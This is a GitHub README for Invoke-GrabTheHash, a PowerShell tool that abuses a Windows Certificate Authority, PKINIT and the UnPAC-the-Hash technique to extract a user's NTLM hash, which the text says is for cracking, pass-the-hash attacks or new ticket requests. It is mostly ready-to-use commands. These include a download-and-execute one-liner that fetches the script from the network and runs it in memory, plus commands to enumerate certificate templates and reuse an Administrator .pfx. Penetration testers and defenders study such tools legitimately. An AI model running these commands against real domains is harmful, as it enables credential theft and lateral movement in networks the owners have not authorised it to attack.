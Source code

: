 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the Current Session User's TGT, uses PKINIT to obtain a TGT for the same user, then performs the UnPAC-the-Hash technique to extract the user's NTLM hash.

This approach can be valuable in situations where an account's TGT has been compromised. Gaining access to the account hash allows for further actions such as cracking it to retrieve the user plain-text password, pass-the-hash attacks, or acquiring a new TGT if the existing one has expired.

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain <domain.name>
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName <template_name>
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.domain.local\domain-CA01-CA"
```

### Specify the User Account Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN <samaccountname>
```

### Provide a .pfx file
You can also reuse a previously obtained .pfx to obtain the user hash

Make sure you provide the full path to the .pfx file, as well as the CN and Domain information
```
Invoke-GrabTheHash -PFX C:\Users\Senna\Downloads\Administrator.pfx -Domain ferrari.local -CN Administrator
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/fcb77053-ebf9-4132-bbaf-8a576a6d08b1)
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/2e887daf-865a-4813-9930-f32815ee653b)
